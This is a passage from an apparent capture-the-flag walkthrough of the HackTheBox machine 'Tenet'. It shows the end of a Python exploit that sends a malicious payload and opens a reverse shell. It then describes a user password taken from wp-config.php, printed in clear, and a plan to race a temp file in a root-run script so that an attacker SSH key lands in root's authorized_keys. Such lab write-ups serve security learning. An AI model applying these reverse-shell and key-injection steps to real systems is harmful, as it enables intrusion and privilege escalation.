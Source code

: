 ```py
    # Send the malicious
    sendMalicious(rhost)
    # Get the reverse shell
    getReverse(rhost, lhost, lport)

if __name__ == '__main__':
    main()
```

Great. Let's continue.

# www-data -> Neil

The first user we get is the neil.

On the wordpress folder we found a `wp-config.php` file, which has credentials.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-15-HackTheBox-Tenet/2021-09-15-HackTheBox-Tenet%2002:34:30.png)

**neil:Opera2112**

We su in this user

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-15-HackTheBox-Tenet/2021-09-15-HackTheBox-Tenet%2002:35:39.png)

Now, let's become root.

# Neil --> Root

We run `sudo -l` and see that neil can run the script `/usr/local/bin/enableSSH.sh` as root

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-15-HackTheBox-Tenet/2021-09-15-HackTheBox-Tenet%2002:37:09.png)

## enableSSH Analysis

So, let's see what we can explore on this script

We open it after download in our Kali box

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-15-HackTheBox-Tenet/2021-09-15-HackTheBox-Tenet%2002:39:04.png)

The script adds a hardcoded public RSA key to the root authorized_keys file. There are three functions in the script, **addKey** , **checkFile** and **checkAdded**.

1 - The script will create a ssh-file in temp directory.

2 - checkFile will check the existance of the file.

3 - checkFile will add the hardcoded ssh public key to root's authorized_key file. 

Lets create a script for checking the existance of ssh file using loop and add our public key to the file

We can abuse this script by executing an attack on the temp file. Looking at the file and then change it's contents to our SSH public key, so that local root key is written into /root/.ssh/authorized_keys.
